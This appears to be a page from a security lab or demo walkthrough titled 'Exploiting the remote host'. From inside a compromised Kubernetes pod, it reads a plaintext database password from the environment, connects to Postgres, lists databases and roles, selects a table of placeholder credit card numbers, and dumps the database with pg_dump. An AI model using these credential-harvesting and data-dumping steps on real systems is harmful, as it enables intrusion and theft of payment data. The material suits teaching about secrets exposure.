 ```yaml
---
id: exploit_host
title: Exploiting the remote host
sidebar_label: Exploit
---
```


Lets see if there is anything interesting configured in the environment.

## Exploiting the host

stuff

```shell
env

# truncated output

HOSTNAME=search-54fc49cd9d-b7nx7

SEARCH_SERVICE_HOST=10.43.38.166
SEARCH_SERVICE_PORT=9090

PAYMENTS_SERVICE_HOST=10.43.70.143
PAYMENTS_SERVICE_PORT=9090

KUBERNETES_SERVICE_HOST=10.43.0.1
KUBERNETES_SERVICE_PORT=443

DATABASE_SERVICE_HOST=10.43.6.193
DATABASE_SERVICE_PORT=5432
DATABASE_USER=root
DATABASE_PASSWORD=please_change_me_barry
```

Install postgres client.

```shell
apt update && apt install -y postgresql-client
```

Connect to the database.

```shell
PGPASSWORD=$DATABASE_PASSWORD psql -h $DATABASE_SERVICE_HOST -p $DATABASE_SERVICE_PORT -U $DATABASE_USER -w -d $DATABASE_NAME
```

Inspect the databases.

```shell
\l

                             List of databases
   Name    | Owner | Encoding |  Collate   |   Ctype    | Access privileges
-----------+-------+----------+------------+------------+-------------------
 postgres  | root  | UTF8     | en_US.utf8 | en_US.utf8 |
 template0 | root  | UTF8     | en_US.utf8 | en_US.utf8 | =c/root          +
           |       |          |            |            | root=CTc/root
 template1 | root  | UTF8     | en_US.utf8 | en_US.utf8 | =c/root          +
           |       |          |            |            | root=CTc/root
 users     | root  | UTF8     | en_US.utf8 | en_US.utf8 |
(4 rows)
```

Inspect the users.

```shell
\du+

                                          List of roles
 Role name |                         Attributes                         | Member of | Description
-----------+------------------------------------------------------------+-----------+-------------
 root      | Superuser, Create role, Create DB, Replication, Bypass RLS | {}        |
```

```shell
\d

            List of relations
 Schema |     Name     |   Type   | Owner
--------+--------------+----------+-------
 public | users        | table    | root
 public | users_id_seq | sequence | root
(2 rows)
```

```shell
SELECT * FROM users;

 id |    name     |   creditcard   | ccv
----+-------------+----------------+-----
  1 | Nic Jackson | 1234-5678-9012 | 123
  2 | Erik Veld   | 5678-9012-1234 | 567
(2 rows)
```

PGPASSWORD=$DATABASE_PASSWORD pg_dump -h $DATABASE_SERVICE_HOST -p $DATABASE_SERVICE_PORT -U $DATABASE_USER -w root

Profit
